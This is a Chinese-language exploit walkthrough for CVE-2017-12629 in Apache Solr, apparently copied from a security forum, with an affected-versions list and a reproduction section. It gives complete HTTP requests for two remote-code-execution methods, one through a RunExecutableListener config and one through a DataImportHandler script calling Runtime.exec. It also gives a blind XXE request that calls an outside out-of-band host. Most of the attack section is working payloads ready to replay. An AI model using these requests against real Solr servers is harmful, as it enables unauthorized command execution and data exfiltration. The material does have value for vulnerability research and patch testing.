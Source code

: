 # （CVE-2017-12629）Apache Solr rce&xxe 漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2824](https://www.zhihuifly.com/t/topic/2824)

# （CVE-2017-12629）Apache Solr rce&xxe 漏洞

## 一、漏洞简介

## 二、漏洞影响

Redhat Single Sign-On 7.0
+ Redhat Linux 6.2 E sparc
+ Redhat Linux 6.2 E i386
+ Redhat Linux 6.2 E alpha
+ Redhat Linux 6.2 sparc
+ Redhat Linux 6.2 i386
+ Redhat Linux 6.2 alpha
Redhat JBoss Portal Platform 6
Redhat JBoss EAP 7 0
Redhat Jboss EAP 6
Redhat JBoss Data Grid 7.0.0
Redhat Enterprise Linux 6
+ Trustix Secure Enterprise Linux 2.0
+ Trustix Secure Linux 2.2
+ Trustix Secure Linux 2.1
+ Trustix Secure Linux 2.0
Redhat Collections for Red Hat Enterprise Linux 0
Apache Solr 6.6.1
Apache Solr 6.6
Apache Solr 6.5.1
Apache Solr 6.5
Apache Solr 6.4
Apache Solr 6.3
Apache Solr 6.2
Apache Solr 6.6
Apache Solr 6.3
Apache Solr 6.0
Apache Lucene 0

## 三、复现过程

### rce 姿势一

*   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```
POST /solr/demo/config HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 158 `{“add-listener”:{“event”:“postCommit”,“name”:“newlistener”,“class”:“solr.RunExecutableListener”,“exe”:“sh”,“dir”:"/bin/",“args”:["-c", “touch /tmp/success”]}}` 
```

![image](img/52b1a1102d82112805728fcf6ccd0fab.png)

在solr管理界面新建了listen

![image](img/1426776e5c8be3f15b8e13d972b695e6.png)

*   然后进行update操作，触发刚才添加的listener：

```
POST /solr/demo/update HTTP/1.1
Host: 10.0.83.79:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 15 `[{“id”:“test”}]` 
```

![image](img/42e8f2bcece87a611e4e4405b2d9e775.png)

### rce 姿势二

![image](img/798637eb1295f5be662bece6f6dd4b2b.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig> 
```

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: 10.0.83.79:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 679
Connection: close
Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr `command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%[2Fstackoverflow.com](http://2Fstackoverflow.com)%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport` 
```

![image](img/3a696fcbe8a7cd70ada3690a33882d96.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

```
GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
Host: your-ip:8983
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close 
```

使用`ceye`

发送payload

![image](img/ede1dce47c9a99d19e95125710bc2c0e.png)

ceye接收

![image](img/68e13c99a3323a371477ae6d2b419f5e.png)

## 参考链接

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/